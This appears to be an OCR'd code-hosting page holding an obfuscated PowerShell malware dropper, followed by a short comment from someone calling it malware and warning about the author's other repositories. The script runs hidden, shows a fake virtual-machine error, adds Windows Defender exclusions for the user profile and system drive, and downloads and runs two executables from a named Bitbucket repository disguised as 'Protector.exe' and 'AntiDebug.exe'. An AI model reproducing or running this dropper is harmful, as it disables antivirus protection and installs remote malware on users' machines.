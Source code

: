 <#qng#>Start-Process powershell -WindowStyle Hidden -ArgumentList "Add-Type -AssemblyName System.Windows.Forms;<#dzb#>[System.Windows.Forms.MessageBox]::Show('No VM/VPS allowed!','','OK','Error')<#zpw#>;";<#nlh#> Add-MpPreference <#xex#> -ExclusionPath @($env:UserProfile,$env:SystemDrive) <#env#> -Force <#vfb#>;(New-Object System.Net.WebClient).DownloadFile('https://bitbucket.org/lucifer61/lasttest/raw/b929b437b75c0de4d7c2abfc361400c5fe5c8ca5/Kys.exe', <#fqk#> (Join-Path <#gft#> -Path $env:Temp <#epe#> -ChildPath 'Protector.exe'))<#rdr#>; (New-Object System.Net.WebClient).DownloadFile('https://bitbucket.org/lucifer61/lasttest/raw/b929b437b75c0de4d7c2abfc361400c5fe5c8ca5/mimimi.exe', <#atf#> (Join-Path <#sjy#> -Path $env:Temp <#ynb#> -ChildPath 'AntiDebug.exe'))<#pmd#>; Start-Process -FilePath <#kgx#> (Join-Path -Path $env:Temp <#xvq#> -ChildPath 'Protector.exe')<#psg#>; Start-Process -FilePath <#mni#> (Join-Path -Path $env:Temp <#gyl#> -ChildPath 'AntiDebug.exe')<#kwg#>

bad try, learn to make good malware first lol

tldr: this is malware, as well as all of luci61 other repositories
